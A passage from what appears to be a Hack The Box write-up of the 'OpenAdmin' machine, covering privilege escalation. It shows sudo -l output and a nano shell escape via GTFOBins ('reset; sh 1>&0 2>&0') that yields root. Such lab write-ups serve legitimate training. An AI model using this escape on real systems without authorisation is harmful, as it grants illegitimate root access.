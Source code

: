 Got user flag.

## privilege escalation
Normally I would use LinEnum or LinPeas to find a way to privesc, but the first thing I try is to list sudo.

```bash
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

If I open the file priv in directory opt with /bin/nano I execute nano with root permissions, so let's take a look at [GTFOBins](https://gtfobins.github.io/gtfobins/nano/){:target="_blank"}.

Like in vi, it's possible to execute commands inside nano.

The only things we need are two shortcuts:

ctrl + r and then ctrl + x

![nano](../../../../assets/images/hackthebox/openadmin/8_openadmin_nano.png)

The command I want to use: 
```bash
reset; sh 1>&0 2>&0
```
![root](../../../../assets/images/hackthebox/openadmin/9_openadmin_root.png)

That's it, the root flag.